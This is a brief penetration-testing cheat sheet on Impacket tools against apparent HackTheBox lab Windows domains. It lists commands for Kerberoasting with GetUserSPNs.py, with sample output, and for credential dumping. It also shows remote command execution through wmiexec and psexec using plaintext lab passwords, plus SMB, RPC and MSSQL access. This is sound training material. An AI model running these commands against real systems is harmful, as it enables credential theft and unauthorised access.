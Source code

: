 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```



## Guide

```
python3 -m pipx install impacket
```

1. [Impacket Guide: SMB/MSRPC - Hacking Articles](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

## Locating Credentials

```
sudo python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783
```

## Dump Credentials 

[impacket/examples/secretsdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

## Access with Credentials


`wmiexec.py 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'`

```
python psexec.py  active.htb/administrator:Ticketmaster1968@10.10.10.100
```

## SMB 

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB Guide]] 

1. Can use `psexec.py` to get reverse shell if write access to the entire system
## SamRDump

```shell-session
samrdump.py 10.129.14.128
```

## RPCDump

[impacket/examples/rpcdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/rpcdump.py)

## SQL

[impacket/examples/mssqlclient.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py)

### MSSQL

```shell-session
mssqlclient.py Administrator@10.129.201.248 -windows-auth
```